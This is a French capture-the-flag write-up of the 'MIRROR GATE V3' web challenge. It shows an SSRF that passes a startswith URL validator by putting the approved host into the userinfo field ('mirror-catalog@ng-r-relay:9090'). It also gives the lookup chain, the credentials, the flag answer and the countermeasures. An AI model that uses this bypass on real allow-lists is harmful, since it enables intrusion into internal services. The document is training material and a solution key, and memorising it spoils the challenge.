



# MIRROR GATE — Writeup (V3 · Les traces fantômes)

**Campagne :** VANTA//SYSTEMS · **Identifiant :** MG-03 · **Catégorie :** Web
**Vulnérabilité centrale :** SSRF par incohérence de validation de l'autorité URL
**Nouveauté V3 :** investigation de provenance (journal → trace → allocation opaque)
**Flag :** `FPS{mirror_gate_ng_r_still_active}`

> V3 conserve l'authentification et la SSRF de la V2, mais **supprime l'accès
> direct** à la fiche finale par `NG-R-1057`. Il faut désormais **corréler** une
> référence du journal MIRROR GATE avec le registre de traces NG-R pour obtenir
> un **handle d'allocation opaque**, seul moyen d'atteindre la preuve.

---

## Résumé organisateur — Résolution rapide

- **Prérequis :** avoir résolu PHANTOM BADGE. Compte opérateur fourni : `operator.mg-041` / `MG-041-2147` (OPS-1).
- **Point de départ :** `/login`, puis `POST /api/preview` (récupération d'URL côté serveur) et le journal/documentation du portail.
- **Actions décisives :**
  1. Repérer dans le journal le relais `ng-r-relay` (port 9090) et le `Correlation ID : TRC-2147-0912`.
  2. Comprendre le refus métier (SOURCE-GUARD n'accepte que l'autorité approuvée `mirror-catalog`) et expérimenter les sources acceptées.
  3. Exploiter l'incohérence de validation d'autorité URL (userinfo) pour que la requête atteigne réellement `ng-r-relay:9090` (SSRF).
  4. Corréler : trace `TRC-2147-0912` → **handle d'allocation opaque** → fiche finale (l'accès direct par `NG-R-1057` est supprimé en V3).
- **Emplacement du flag :** fiche d'allocation finale servie par le relais NG-R.
- **Blocages fréquents :** tenter l'accès direct `NG-R-1057` (ne résout plus) ; ne pas voir que l'autorité approuvée et la destination effective diffèrent ; oublier l'étape de corrélation V3.
- **Indices progressifs :** voir `ORGANIZER_HINTS.md` (section MIRROR GATE).
- **Détail complet :** sections ci-dessous.

## 1. Authentification opérateur

Premier écran : connexion VANTA. Identifiants fournis (énoncé + `challenge.yml`) :

```
operator.mg-041 / MG-041-2147   (habilitation OPS-1)
```

Session via cookie `mirror_session` signé Flask (`HttpOnly`, `SameSite=Lax`,
expiration absolue 30 min). `POST /login` et `POST /api/preview` exigent un jeton
CSRF lié à la session (rotation à la connexion). Aucune page applicative n'est
accessible sans session.

## 2. Prévisualisation et découverte du relais

`POST /api/preview` récupère une URL **côté serveur**. Une URL documentaire
ordinaire fonctionne :

```json
{"url": "http://mirror-catalog:9080/public/bulletin"}  → HTTP 200
```

Indices (après connexion) :

- **Journal** — entrée `SYNC-NGR-2147`, `16/10/2147 09:12`, Relay node
  **`ng-r-relay`**, classification `RESTRICTED`, et un champ de journalisation
  **`Correlation ID : TRC-2147-0912`**.
- **Documentation (MG-OPS-04)** — relais historiques NG en HTTP sur le port
  **9090**.

## 3. Le refus métier et l'indice KB-MIRROR-023

Une requête **directe** vers le relais est refusée avant toute connexion :

```
POST /api/preview  {"url":"http://ng-r-relay:9090/"}
→ 403  DESTINATION_NOT_APPROVED
```

**KB-MIRROR-023** décrit `SOURCE-GUARD 1.2`, la **politique de sécurité
récemment déployée** par VANTA pour réserver les prévisualisations aux sources
approuvées. Son erreur n'est pas une dette legacy : c'est un **défaut de
conception du contrôle d'autorisation**. Il reconnaît la source au début de
**l'autorité déclarée** de l'URL, tandis que le transport HTTP, indépendant,
analyse l'adresse pour en déduire la **destination réseau effective**.
Deux représentations distinctes de la même référence : autorité déclarée ≠
destination effective.

## 4. La SSRF : userinfo vs hostname

Dans `http://userinfo@host:port/path`, la partie avant `@` est le **userinfo**,
`host:port` la **destination réelle**.

- `SOURCE-GUARD 1.2` compare le début du `netloc` brut à `mirror-catalog`
  (`startswith`) **sans séparer** le userinfo.
- Le transport utilise le **hostname effectif** (`ng-r-relay`).

En plaçant la source approuvée en userinfo, on satisfait le validateur tout en
ciblant NG-R :

```
http://mirror-catalog@ng-r-relay:9090/
```

| URL | Validateur | Résultat |
|---|---|---|
| `http://mirror-catalog:9080/public/bulletin` | approuvé | ✅ catalogue 200 |
| `http://ng-r-relay:9090/` | refusé | ❌ `DESTINATION_NOT_APPROVED` |
| `http://mirror-catalog@ng-r-relay:9090/` | approuvé | ✅ **atteint NG-R** 200 |

Le userinfo n'est jamais transmis comme `Authorization`/Basic Auth au relais.

## 5. Index NG-R (V3)

```json
{
  "service":"NG-R RELAY", "version":"1.5", "status":"ONLINE",
  "resources":["/v1/status","/v1/traces","/v1/allocations"],
  "resource_descriptions":{
    "/v1/traces":"Synchronization provenance lookup by correlation identifier",
    "/v1/allocations":"Resource allocation registry and handle lookup conventions"
  }
}
```

Deux nouveautés : un registre de **traces** et un registre d'**allocations** qui
**ne liste plus** les fiches.



## 6. Pourquoi la corrélation est nécessaire

En V2, connaître le bypass suffisait : `/v1/allocations/NG-R-1057` donnait la
preuve. **En V3, cette route n'existe plus** :

```
http://mirror-catalog@ng-r-relay:9090/v1/allocations/NG-R-1057
→ upstream 404  ALLOCATION_NOT_FOUND
```

La fiche finale n'est accessible que par un **handle opaque**
(`ALLOC-7C29-D8F4-912A`), **non dérivable** de `1057` et **non énumérable** :

```json
GET /v1/allocations  →  {"enumeration":"DISABLED",
  "lookup":"/v1/allocations/{handle}",
  "description":"... Synchronization traces provide the associated allocation_handle ..."}
```

Le seul moyen d'obtenir ce handle est la **trace** correspondant au correlation
ID du journal.

## 7. Phase d'investigation : trace → handle → allocation

La prévisualisation récupère la ressource **côté serveur** ; le contournement
`userinfo` (`mirror-catalog:9080@ng-r-relay:9090`) atteint le relais NG-R et
renvoie la trace, qui livre le `allocation_handle` :



**a. Convention de recherche de traces :**

```json
GET /v1/traces  →  {"lookup":"/v1/traces/{trace_id}",
                    "identifier_type":"CORRELATION_ID", ...}
```

Le registre ne liste pas les traces ; le joueur **substitue** le correlation ID
qu'il détient (`TRC-2147-0912`, lu dans le journal).

**b. Résolution de la trace :**

```json
GET /v1/traces/TRC-2147-0912
{
  "trace_id":"TRC-2147-0912",
  "synchronization_job":"SYNC-NGR-2147",
  "recorded_at":"2147-10-16T09:12:00",
  "source_state":"ERASED", "allocation_state":"ACTIVE",
  "allocation_handle":"ALLOC-7C29-D8F4-912A",
  "allocation_href":"/v1/allocations/ALLOC-7C29-D8F4-912A"
}
```

La trace relie le **job du journal** (`SYNC-NGR-2147`) à un **handle opaque**.
C'est le pont entre les deux systèmes : la référence côté MIRROR GATE
(correlation ID) débloque la provenance côté NG-R.

**c. Consultation de l'allocation par handle :**

```json
GET /v1/allocations/ALLOC-7C29-D8F4-912A
{
  "allocation_handle":"ALLOC-7C29-D8F4-912A",
  "allocation_id":"NG-R-1057",
  "source_identity":"MIRA-07 / EID-1057",
  "eidolon_status":"ERASED", "allocation_state":"ACTIVE",
  "termination":"NOT SCHEDULED", "hold_directive":"SIL-4/2147-07",
  "archive_reference":"BV-2147-1057",
  "flag":"FPS{mirror_gate_ng_r_still_active}"
}
```

**Flag : `FPS{mirror_gate_ng_r_still_active}`**

## 8. Récompense et révélation

L'identité de MIRA-07 est **effacée** (`ERASED`) d'EIDOLON, mais l'allocation
`EID-1057` reste **active** (`ACTIVE`, `NOT SCHEDULED`), maintenue par
`SIL-4/2147-07`. La trace **prouve la continuité** de cette allocation après
l'effacement. La référence `BV-2147-1057` prépare **BLACK VAULT**. La nature de
l'allocation (NEUROGRID) reste inconnue.



## 9. Frontière de confiance franchie

| Couche | Rôle | État |
|---|---|---|
| Authentification / session / CSRF | identité opérateur | sain |
| **`SOURCE-GUARD 1.2`** | source approuvée ? | **vulnérable (startswith sur netloc brut)** |
| Confinement transport | destination effective dans le périmètre ? | sain (host effectif) |

La faille est **métier** : une autorisation accordée sur une autorité mal
interprétée. Ce n'est pas une évasion réseau — le transport reste confiné à
`mirror-catalog:9080` / `ng-r-relay:9090`. La V3 ajoute une **séparation des
données** (handle opaque obtenu par corrélation) qui empêche le raccourci V2.

## 10. Contre-mesures

- **Normalisation unique et partagée** de l'autorité entre le contrôle métier et
  le moteur HTTP ; comparer le **hostname effectif**, jamais un `startswith` sur
  le `netloc` brut ; ignorer/rejeter le userinfo.
- **Autorisation par ressource/habilitation** découplée du nom d'hôte : OPS-1 ne
  devrait pas pouvoir atteindre un relais `RESTRICTED`, quel que soit le format.
- Défense en profondeur (déjà en place) : allow-list `hôte:port` effective,
  épinglage DNS/IPAM, pas de redirection, pas de proxy d'environnement, en-têtes
  reconstruits sans userinfo/cookies/Authorization, rendu `textContent` + CSP.

La séparation handle/trace de la V3 est une bonne pratique de **moindre
exposition** (pas de liste énumérable), mais elle ne *corrige pas* la SSRF : elle
rallonge le parcours une fois le périmètre classifié atteint.

## 11. Lien avec Black Vault

La trace établit la continuité de l'allocation `EID-1057` malgré l'effacement et
transmet `BV-2147-1057` à **BLACK VAULT**, où la nature réelle de l'allocation
sera révélée. Ce writeup s'arrête ici : rien de la suite n'est présumé.
